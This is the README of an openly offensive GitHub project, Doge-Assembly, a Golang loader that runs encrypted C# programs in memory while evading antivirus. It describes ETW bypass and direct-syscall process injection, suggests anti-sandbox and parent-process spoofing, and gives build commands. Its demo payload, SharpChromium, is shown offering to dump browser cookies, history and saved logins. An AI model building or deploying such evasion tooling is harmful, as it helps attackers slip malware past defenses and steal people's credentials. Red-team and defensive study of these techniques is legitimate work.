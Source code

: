 ![Doge-Assembly](https://socialify.git.ci/timwhitez/Doge-Assembly/image?description=1&font=Raleway&forks=1&issues=1&language=1&logo=https%3A%2F%2Favatars1.githubusercontent.com%2Fu%2F36320909&owner=1&pattern=Circuit%20Board&stargazers=1&theme=Light)

- 🐸Frog For Automatic Scan

- 🐶Doge For Defense Evasion&Offensive Security

# Doge-Assembly
Golang evasion tool, execute-assembly .Net file

## Intro
Are you still worrying about antivirus?


## feature
更新etw bypass相关代码，请重新获取依赖

go get -u github.com/timwhitez/Doge-Assembly/assembly

使用Golang execute assembly加载C#程序

C#程序编译为静态资源文件，使用AES加密，使用时最好替换自定义密钥

clr.dll进程注入的过程采用direct syscall进行api调用

若想增强免杀效果可自行添加:
```
反沙箱反调试等相关代码

Blockdlls

parent-process-id-spoofing
```

### 写的较为仓促，希望能有大佬帮忙优化


## Usage
注意，若源程序需要多个参数执行，请使用如下方式:
```
in powershell:
Doge-Assembly.exe '-t schtask -c \"C:\Windows\System32\cmd.exe\" -a \"/c calc\" -n Test -m add -o hourly'
```

```
cd encrypt
go build

you can change sharp.exe to other C# exe file

./encrypt.exe ./sharp.exe

copy sharp.exe.cipher to bin/

cd ..
go get -u github.com/timwhitez/Doge-Assembly/assembly
go-bindata data/
go build

```

```
demo sharp.exe is SharpChromium.exe
```


## ref
资源文件加载:

- https://github.com/go-bindata/go-bindata

golang 的 execute assembly 实现:

- https://github.com/lesnuages/go-execute-assembly

bananaphone, golang hells gate:

- https://github.com/C-Sto/BananaPhone

etw bypass:

-https://blog.xpnsec.com/hiding-your-dotnet-etw/

-https://idiotc4t.com/defense-evasion/memory-pacth-bypass-etw


## todo
目前兼容性存在少许问题


## screenshot
```
PS D:\Doge-Assembly> .\Doge-Assembly.exe
Decrypt Success...

dll: 19968
bin: 584704

Dynamic Evasion
Please Wait for 10 seconds......
2481571495936
BananaPhone: Allocated 20480bytes at 0x241C9300000
BananaPhone: Wrote 20480bytes at 0x241C9300000
2481571561472
BananaPhone: Allocated 585728bytes at 0x241C9310000
BananaPhone: Wrote 584715bytes at 0x241C9310000
2021/03/09 16:37:29 Got thread handle: 404

out:
[X] Invalid argument passed:

Usage:
    .\SharpChromium.exe arg0 [arg1 arg2 ...]

Arguments:
    all       - Retrieve all Chromium Cookies, History and Logins.
    full      - The same as 'all'
    logins    - Retrieve all saved credentials that have non-empty passwords.
    history   - Retrieve user's history with a count of each time the URL was
                visited, along with cookies matching those items.
    cookies [domain1.com domain2.com] - Retrieve the user's cookies in JSON format.
                                        If domains are passed, then return only
                                        cookies matching those domains. Otherwise,
                                        all cookies are saved into a temp file of
                                        the format "%TEMP%\$browser-cookies.json"


err:

```

# 🚀Star Trend
[![Stargazers over time](https://starchart.cc/timwhitez/Doge-Assembly.svg)](https://starchart.cc/timwhitez/Doge-Assembly)

